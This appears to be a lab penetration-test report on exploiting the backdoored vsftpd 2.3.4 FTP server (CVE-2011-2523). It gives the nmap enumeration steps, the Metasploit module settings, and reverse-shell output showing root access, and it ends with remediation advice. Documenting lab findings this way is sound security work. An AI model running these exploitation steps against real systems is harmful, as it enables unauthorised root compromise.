






# Finding 1: vsftpd 2.3.4 — Backdoor Command Execution

| | |
|---|---|
| **Service** | FTP (Port 21) |
| **Version** | vsftpd 2.3.4 |
| **CVE** | CVE-2011-2523 |
| **CWE** | CWE-506 (Embedded Malicious Code) |
| **Severity** | Critical |
| **CVSS (approx.)** | 10.0 (Critical) — unauthenticated remote code execution as root |

---

## 1. Methodology

**Step 1 — Confirm connectivity to the target**

```
ping -c 4 192.168.56.102
```

Verified the target (`192.168.56.102`) was reachable from the attacker machine (`192.168.56.101`) with 0% packet loss.



**Step 2 — Full service/version enumeration**

```
nmap -sV -sC 192.168.56.102
```

A full scan across all discovered ports confirmed `vsftpd 2.3.4` running on port 21, alongside other services (SSH, Telnet, SMTP, Samba).


**Step 3 — Targeted port scan**

```
nmap -sV -p 21 192.168.56.102
```

Isolated scan of port 21 confirmed the exact version string: `vsftpd 2.3.4`.



**Step 4 — Research the version**

Cross-referenced `vsftpd 2.3.4` against Exploit-DB/searchsploit. This version was known to have been maliciously backdoored on the official download server between June–July 2011. A matching Metasploit module was identified: `exploit/unix/ftp/vsftpd_234_backdoor`.

---

## 2. Exploitation

**Step 1 — Load the Metasploit module**

```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
```



**Step 2 — Configure and verify module options**

```
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
options
```

Confirmed `RHOSTS`, `RPORT`, `LHOST`, and `LPORT` were correctly set before running the exploit.



**Step 3 — Run the exploit**

```
exploit
```

The backdoor triggered successfully, spawning a reverse TCP handler and returning a Meterpreter session.

```
[*] Started reverse TCP handler on 192.168.56.101:4444
[+] 192.168.56.102:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (192.168.56.101:4444 → 192.168.56.102:56018)
```



---

## 3. Evidence (Proof of Access)

Dropped into a shell from the Meterpreter session and confirmed privilege level:

```
meterpreter > getuid
Server username: root

meterpreter > shell
whoami
root

id
uid=0(root) gid=0(root)
```

This confirms **unauthenticated remote root access** was achieved on the target.



---

## 4. Impact

- **Full compromise** of the target system with root privileges
- Attacker can read/modify/delete any file, create new user accounts, pivot to other systems on the network, or install persistent malware
- No authentication or user interaction required — fully remote and unauthenticated
- Exploitation took under a minute from module load to root shell

---

## 5. Remediation

- Immediately upgrade to a patched vsftpd version (2.3.5 or later), sourced only from the official, verified repository
- Verify checksums/GPG signatures of downloaded packages before deployment, to detect supply-chain tampering
- Restrict FTP service exposure to trusted networks only; disable if not business-critical
- Implement file integrity monitoring on production servers to detect unauthorized binary modification
